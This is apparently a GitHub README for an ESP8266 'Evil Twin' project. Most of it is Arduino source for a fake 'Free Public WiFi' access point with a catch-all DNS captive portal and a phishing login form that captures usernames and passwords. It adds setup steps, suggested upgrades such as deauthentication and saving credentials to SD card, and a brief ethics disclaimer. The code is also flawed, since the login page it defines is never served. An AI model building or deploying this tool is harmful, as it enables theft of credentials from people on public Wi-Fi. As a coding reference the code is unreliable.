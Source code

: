# Evil-Twin_Node_MCU

```bash
#include <ESP8266WiFi.h>
#include <DNSServer.h>
#include <ESP8266WebServer.h>

// Configuration
const char* AP_SSID = "Free Public WiFi";  // Fake AP name
const char* REDIRECT_URL = "http://login.required";  // Phishing URL

const byte DNS_PORT = 53;
IPAddress apIP(192, 168, 1, 1);
DNSServer dnsServer;
ESP8266WebServer webServer(80);

// HTML for captive portal
const char* loginPage = 
R"rawliteral(
<!DOCTYPE html>
<html>
<head>
<title>Network Login Required</title>
<style>
  body { font-family: Arial, sans-serif; background: #f0f0f0; }
  .container { background: white; width: 300px; margin: 100px auto; padding: 20px; border-radius: 5px; box-shadow: 0 0 10px rgba(0,0,0,0.1); }
  input { width: 100%; padding: 10px; margin: 8px 0; box-sizing: border-box; }
  button { background: #4CAF50; color: white; padding: 14px 20px; border: none; cursor: pointer; width: 100%; }
</style>
</head>
<body>
<div class="container">
  <h2>Network Login</h2>
  <p>Enter credentials to access Internet</p>
  <form action="/login" method="POST">
    <input type="text" name="username" placeholder="Username" required>
    <input type="password" name="password" placeholder="Password" required>
    <button type="submit">Login</button>
  </form>
</div>
</body>
</html>
)rawliteral";

void setup() {
  Serial.begin(115200);
  
  // Configure AP
  WiFi.mode(WIFI_AP);
  WiFi.softAPConfig(apIP, apIP, IPAddress(255, 255, 255, 0));
  WiFi.softAP(AP_SSID);

  // Start DNS server (captive portal)
  dnsServer.start(DNS_PORT, "*", apIP);

  // Web server handlers
  webServer.on("/", handleRoot);
  webServer.on("/login", handleLogin);
  webServer.onNotFound(handleRoot);  // Redirect all requests
  webServer.begin();

  Serial.println("\nEvil Twin AP Running!");
  Serial.print("SSID: ");
  Serial.println(AP_SSID);
  Serial.print("IP: ");
  Serial.println(apIP);
}

void loop() {
  dnsServer.processNextRequest();
  webServer.handleClient();
}

// Handle captive portal redirect
void handleRoot() {
  webServer.sendHeader("Location", REDIRECT_URL, true);
  webServer.send(302, "text/plain", "");
}

// Process captured credentials
void handleLogin() {
  String username = webServer.arg("username");
  String password = webServer.arg("password");
  
  Serial.println("\n[+] Credentials Captured!");
  Serial.print("Username: ");
  Serial.println(username);
  Serial.print("Password: ");
  Serial.println(password);

  // Redirect after capture
  webServer.sendHeader("Location", "http://example.com", true);
  webServer.send(302, "text/plain", "Login Successful");
}

// Not needed but included for clarity
void handleNotFound() {
  handleRoot();
}
```


## Key Components

**Fake Access Point:**
- Creates Wi-Fi network with specified SSID
- Uses IP 192.168.1.1 for gateway

**Captive Portal:**
- DNS server redirects all domains to ESP
- Any HTTP request shows login page
- Professional-looking login form

**Credential Harvesting:**
- Captures username/password via POST
- Prints credentials to serial monitor
- Shows "success" redirect after submission

## Setup Instructions
- Upload code to NodeMCU
- Open Serial Monitor (115200 baud)
- Connect device to Free Public WiFi
- Attempt to browse any website
- Enter test credentials in login page
- Observe credentials in Serial Monitor

## Ethical Considerations
- **Legal Compliance:** Only test on your own networks
- **Disclosure:** Add disclaimer to login page in real tests
- **Data Handling:** Never store captured credentials permanently
- **Permissions:** Requires written consent for penetration testing

## Enhancements (Optional)
- Add EAP/TLS encryption simulation
- Implement WiFi deauthentication (requires external hardware)
- Add SSL/TLS (requires HTTPS library)
- Store credentials to SPIFFS/SD card

